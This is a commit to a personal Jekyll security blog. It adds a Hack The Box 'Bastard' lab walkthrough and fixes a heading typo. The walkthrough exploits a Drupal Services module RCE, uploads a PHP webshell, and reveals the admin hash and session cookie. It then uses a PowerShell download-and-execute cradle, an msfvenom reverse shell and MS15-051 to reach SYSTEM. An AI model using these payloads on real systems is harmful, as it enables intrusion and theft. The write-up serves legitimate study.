

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/htb/2020-08-16-granny.md, in a window 1280 px wide and 900 px high, scrolled down 8979 px. Shown: the top 892 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
bastard htb writeup

````diff
--- a/_posts/htb/2020-08-16-granny.md
+++ b/_posts/htb/2020-08-16-granny.md
@@ -82,7 +82,7 @@
 
 We can see that the box is running `iis 6.0` and have `webdav` enabled. We can try out some enumeration using `davtest`
 
-### Devtest
+### Davtest
 ```bash
 ********************************************************
  Testing DAV connection
--- /dev/null
+++ b/_posts/htb/2020-08-20-bastard.md
@@ -0,0 +1,394 @@
+---
+layout: single_c
+title:  "Hack The Box - Bastard Writeup"
+date:   2020-07-05 10:43:16 +0530
+toc: true
+categories: HTB
+tags: OSCP
+classes: wide
+---
+![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bastard/bastard.png){: .align-center}
+## Description:
+Medium rated windows box running `Drupal 7`. This box provides a very good learning experience for OSCP.
+
+## Enumeration
+
+Add `bastard.htb` to `hosts` and start an `nmap` scan.
+
+### Nmap
+
+```bash
+Nmap scan report for bastard.htb (10.10.10.9)
+Host is up, received user-set (0.29s latency).
+Scanned at 2020-08-18 10:22:16 EDT for 99s
+Not shown: 997 filtered ports
+Reason: 997 no-responses
+PORT      STATE SERVICE REASON          VERSION
+80/tcp    open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
+|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
+|_http-generator: Drupal 7 (http://drupal.org)
+| http-methods:
+|   Supported Methods: OPTIONS TRACE GET HEAD POST
+|_  Potentially risky methods: TRACE
+| http-robots.txt: 36 disallowed entries
+| /includes/ /misc/ /modules/ /profiles/ /scripts/
+| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
+| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
+| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php
+| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/
+| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
+| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/
+|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
+|_http-server-header: Microsoft-IIS/7.5
+|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
+135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
+49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
+Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
+```
+
+We have ports `80`, `135` and `49154`. Ports `135` and `49154` are related to microsoft rpc and generally are not exploitable. (Or I it might be not being skilled enough), Lets proceed to port `80`.
+
+We have a web application running on port `80`. The CMS used is `drupal 7`.
+
+![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bastard/drupal.png){: .align-center}
+
+### Droopescan
+
+`droopescan` is a tool that can be used to enumerate `drupal` and `silverstripe` applications.
+
+```bash
+kali@kali:~/Desktop/tools/autorecon/results/bastard.htb/scans$ droopescan
+
+    |
+ ___| ___  ___  ___  ___  ___  ___  ___  ___  ___
+|   )|   )|   )|   )|   )|___)|___ |    |   )|   )
+|__/ |    |__/ |__/ |__/ |__   __/ |__  |__/||  /
+                    |
+                                         v1.33.7
+
+Example invocations:
+  droopescan scan drupal -u URL_HERE
+  droopescan scan silverstripe -u URL_HERE
+
+More info:
+  droopescan scan --help
+
+Please see the README file for information regarding proxies.
+
+kali@kali:~/Desktop/tools/autorecon/results/bastard.htb/scans$ droopescan scan drupal -u http://bastard.htb
+[+] Plugins found:
+    ctools http://bastard.htb/sites/all/modules/ctools/
+        http://bastard.htb/sites/all/modules/ctools/CHANGELOG.txt
+        http://bastard.htb/sites/all/modules/ctools/changelog.txt
+        http://bastard.htb/sites/all/modules/ctools/CHANGELOG.TXT
+        http://bastard.htb/sites/all/modules/ctools/LICENSE.txt
+        http://bastard.htb/sites/all/modules/ctools/API.txt
+    libraries http://bastard.htb/sites/all/modules/libraries/
+        http://bastard.htb/sites/all/modules/libraries/CHANGELOG.txt
+        http://bastard.htb/sites/all/modules/libraries/changelog.txt
+        http://bastard.htb/sites/all/modules/libraries/CHANGELOG.TXT
+        http://bastard.htb/sites/all/modules/libraries/README.txt
+        http://bastard.htb/sites/all/modules/libraries/readme.txt
+        http://bastard.htb/sites/all/modules/libraries/README.TXT
+        http://bastard.htb/sites/all/modules/libraries/LICENSE.txt
+    services http://bastard.htb/sites/all/modules/services/
+        http://bastard.htb/sites/all/modules/services/README.txt
+        http://bastard.htb/sites/all/modules/services/readme.txt
+        http://bastard.htb/sites/all/modules/services/README.TXT
+        http://bastard.htb/sites/all/modules/services/LICENSE.txt
+    profile http://bastard.htb/modules/profile/
+    php http://bastard.htb/modules/php/
+    image http://bastard.htb/modules/image/
+
+[+] Themes found:
+    seven http://bastard.htb/themes/seven/
+    garland http://bastard.htb/themes/garland/
+
+[+] Possible version(s):
+    7.54
+
+[+] Possible interesting urls found:
+    Default changelog file - http://bastard.htb/CHANGELOG.txt
+    Default admin - http://bastard.htb/user/login
+
+[+] Scan finished (0:59:51.172306 elapsed)
+```
+
+### Searchsploit
+
+Searching `drupal 7` on exploit db gives us few results.
+
+```bash
+kali@kali:~/Desktop/tools/autorecon/results/bastard.htb/scans$ searchsploit drupal 7.
+----------------------------------------------------------------------------------- ---------------------------------
+ Exploit Title                                                                     |  Path
+----------------------------------------------------------------------------------- ---------------------------------
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                  | php/webapps/34992.py
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                   | php/webapps/44355.php
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)        | php/webapps/34984.py
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)        | php/webapps/34993.php
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)           | php/webapps/35150.php
+Drupal 7.12 - Multiple Vulnerabilities                                             | php/webapps/18564.txt
+Drupal 7.x Module Services - Remote Code Execution                                 | php/webapps/41564.php
+Drupal < 4.7.6 - Post Comments Remote Command Execution                            | php/webapps/3313.pl
+Drupal < 7.34 - Denial of Service                                                  | php/dos/35415.txt
+Drupal < 7.34 - Denial of Service                                                  | php/dos/35415.txt
+Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)           | php/webapps/44557.rb
+Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)        | php/webapps/44542.txt
+Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executio | php/webapps/44449.rb
+Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executio | php/webapps/44449.rb
+Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasp | php/remote/44482.rb
+Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)   | php/webapps/44448.py
+Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Exe | php/remote/46510.rb
+Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                     | php/webapps/46452.txt
+Drupal < 8.6.9 - REST Module Remote Code Execution                                 | php/webapps/46459.py
+Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                  | php/webapps/44501.txt
+Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scrip | php/webapps/25493.txt
+Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                      | php/remote/40144.php
+Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting            | php/webapps/35397.txt
+Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                  | php/remote/40130.rb
+----------------------------------------------------------------------------------- ---------------------------------
+Shellcodes: No Results
+```
+
+We can see from `droopescan` that the site is running `drupal 7.54`. The system is vulnerable to `Drupalgeddon2` and `Drupalgeddon3`. Both exploits work(`Drupalgeddon3` requires logging in, which can be accomplished using the method we are going to use). I won't be using these as they were released after the release of the box.
+
+From the `droopescan` we can see that the site uses services module `services` and we do have an exploit for that. Module [`services`](https://www.drupal.org/project/services) provides api endpoints for interacting with the site. A detailed info regarding the exploit can be found [here](https://www.ambionics.io/blog/drupal-services-module-rce).
+
+## User Shell
+
+The exploit requires us to provide the rest endpoint. I tried to find it using `drib` but the scan was really really slow. There are a [couple of methods](https://book.hacktricks.xyz/pentesting/pentesting-web/drupal) to find interesting files in `drupal`.
+
+>Fuzz /node/$ where $ is a number (from 1 to 500 for example).
+>You could find hidden pages (test, dev) which are not referenced by the search engines.
+
+Trying out `http://bastard.htb/node/1` shows a page with details regarding the api endpoint that is `/rest`.
+
+![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bastard/api.png){: .align-center}
+
+Now edit parts of the exploit.
+
+```php
+$url = 'http://bastard.htb';
+$endpoint_path = '/rest';
+$endpoint = 'rest_endpoint';
+
+$file = [
+    'filename' => 'joe.php',
+    'data' => '<?php system($_REQUEST["cmd"]); ?>'
+];
+```
+
+Uploading a simple `php` webshell as the payload. `php-curl` needs to be installed before running the script.
+
+```bash
+kali@kali:~/Desktop/htb/bastard$ php mod.php
+# Exploit Title: Drupal 7.x Services Module Remote Code Execution
+# Vendor Homepage: https://www.drupal.org/project/services
+# Exploit Author: Charles FOL
+# Contact: https://twitter.com/ambionics
+# Website: https://www.ambionics.io/blog/drupal-services-module-rce
+
+
+#!/usr/bin/php
+Stored session information in session.json
+Stored user information in user.json
+Cache contains 7 entries
+File written: http://bastard.htb/joe.php
+```
+
+The exploit also created two files `session.json` and `user.json`.
+
+#### User.json
+```json
+kali@kali:~/Desktop/htb/bastard$ cat user.json
+{
+    "uid": "1",
+    "name": "admin",
+    "mail": "drupal@hackthebox.gr",
+    "theme": "",
+    "created": "1489920428",
+    "access": "1492102672",
+    "login": 1597891473,
+    "status": "1",
+    "timezone": "Europe\/Athens",
+    "language": "",
+    "picture": null,
+    "init": "drupal@hackthebox.gr",
+    "data": false,
+    "roles": {
+        "2": "authenticated user",
+        "3": "administrator"
+    },
+    "rdf_mapping": {
+        "rdftype": [
+            "sioc:UserAccount"
+        ],
+        "name": {
+            "predicates": [
+                "foaf:name"
+            ]
+        },
+        "homepage": {
+            "predicates": [
+                "foaf:page"
+            ],
+            "type": "rel"
+        }
+    },
+    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
+ ```
+
+#### Session.json
+```json
+{
+    "session_name": "SESS3be1999be4b134a44bef1e6c979c5741",
+    "session_id": "GW-o-VjGaQh8C0iUmQ9H3hF9zclzIcZTALbyOOn9dQY",
+    "token": "4QC_BpEizotQZYV8lANthATkegiE-COJCytDIMmDicY"
+}
+```
+
+I tried cracking the hash, but it did not budge. The session information can be used as a cookie to login as `admin` user. A cookie with value of `session_name` as the cookie name and the value of `session_id` as the cookie value can give us `admin` access. This is required for `Drupalgeddon3` exploit.
+
+Browse to our webshell and use a `nishang` shell to get access.
+
+![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bastard/shell.gif){: .align-center}
+
+```bash
+kali@kali:~/Desktop/htb/bastard$ nc -lvp 4444
+listening on [any] 4444 ...
+connect to [10.10.14.15] from bastard.htb [10.10.10.9] 49173
+Windows PowerShell running as user BASTARD$ on BASTARD
+Copyright (C) 2015 Microsoft Corporation. All rights reserved.
+
+PS C:\inetpub\drupal-7.54>whoami
+nt authority\iusr
+```
+
+## Root Shell
+
+Running `Sherlock.ps1` to enumerate kernel issues shows that we have few possible exploits.
+
+```shell
+PS C:\inetpub\drupal-7.54> powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.15:8000/Sherlock.ps1');Find-AllVulns"
+
+
+Title      : User Mode to Ring (KiTrap0D)
+MSBulletin : MS10-015
+CVEID      : 2010-0232
+Link       : https://www.exploit-db.com/exploits/11199/
+VulnStatus : Not supported on 64-bit systems
+
+Title      : Task Scheduler .XML
+MSBulletin : MS10-092
+CVEID      : 2010-3338, 2010-3888
+Link       : https://www.exploit-db.com/exploits/19930/
+VulnStatus : Appears Vulnerable
+
+Title      : NTUserMessageCall Win32k Kernel Pool Overflow
+MSBulletin : MS13-053
+CVEID      : 2013-1300
+Link       : https://www.exploit-db.com/exploits/33213/
+VulnStatus : Not supported on 64-bit systems
+
+Title      : TrackPopupMenuEx Win32k NULL Page
+MSBulletin : MS13-081
+CVEID      : 2013-3881
+Link       : https://www.exploit-db.com/exploits/31576/
+VulnStatus : Not supported on 64-bit systems
+
+Title      : TrackPopupMenu Win32k Null Pointer Dereference
+MSBulletin : MS14-058
+CVEID      : 2014-4113
+Link       : https://www.exploit-db.com/exploits/35101/
+VulnStatus : Not Vulnerable
+
+Title      : ClientCopyImage Win32k
+MSBulletin : MS15-051
+CVEID      : 2015-1701, 2015-2433
+Link       : https://www.exploit-db.com/exploits/37367/
+VulnStatus : Appears Vulnerable
+
+Title      : Font Driver Buffer Overflow
+MSBulletin : MS15-078
+CVEID      : 2015-2426, 2015-2433
+Link       : https://www.exploit-db.com/exploits/38222/
+VulnStatus : Not Vulnerable
+
+Title      : 'mrxdav.sys' WebDAV
+MSBulletin : MS16-016
+CVEID      : 2016-0051
+Link       : https://www.exploit-db.com/exploits/40085/
+VulnStatus : Not supported on 64-bit systems
+
+Title      : Secondary Logon Handle
+MSBulletin : MS16-032
+CVEID      : 2016-0099
+Link       : https://www.exploit-db.com/exploits/39719/
+VulnStatus : Appears Vulnerable
+
+Title      : Windows Kernel-Mode Drivers EoP
+MSBulletin : MS16-034
+CVEID      : 2016-0093/94/95/96
+Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
+             6-034?
+VulnStatus : Not Vulnerable
+
+Title      : Win32k Elevation of Privilege
+MSBulletin : MS16-135
+CVEID      : 2016-7255
+Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
+             ample-Exploits/MS16-135
+VulnStatus : Not Vulnerable
+
+Title      : Nessus Agent 6.6.2 - 6.10.3
+MSBulletin : N/A
+CVEID      : 2017-7199
+Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
+             tml
+VulnStatus : Not Vulnerable
+
+```
+
+I will be using [`MS15-051`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) to exploit the system.
+
+First create a payload using `msfvenom`.
+
+```bash
+kali@kali:~/Desktop/htb/bastard$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8082 -f exe -o shell.exe
+[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
+[-] No arch selected, selecting arch: x86 from the payload
+No encoder specified, outputting raw payload
+Payload size: 324 bytes
+Final size of exe file: 73802 bytes
+Saved as: shell.exe
+```
+
+Start a `smb` server to serve the exploit binary and the `msfvenom` payload.
+
+```bash
+PS C:\inetpub\drupal-7.54> PS C:\inetpub\drupal-7.54> \\10.10.14.15\kali\ms15.exe whoami
+[#] ms15-051 fixed by zcgonvh
+[!] process with pid: 1724 created.
+==============================
+nt authority\system
+PS C:\inetpub\drupal-7.54> \\10.10.14.15\kali\ms15.exe \\10.10.14.15\kali\shell.exe
+```
+
+Start a listener to receive the shell.
+
+```bash
+kali@kali:~/Desktop/htb/bastard$ nc -lvp 8082
+listening on [any] 8082 ...
+connect to [10.10.14.15] from bastard.htb [10.10.10.9] 49178
+Microsoft Windows [Version 6.1.7600]
+Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
+
+C:\inetpub\drupal-7.54>whoami
+whoami
+nt authority\system
+
+C:\inetpub\drupal-7.54>
+```
+
+And we are SYSTEM !.
````
Also changed, not shown: assets/images/htbimg/bastard/api.png (added), assets/images/htbimg/bastard/bastard.png (added), assets/images/htbimg/bastard/drupal.png (added), assets/images/htbimg/bastard/shell.gif (added).
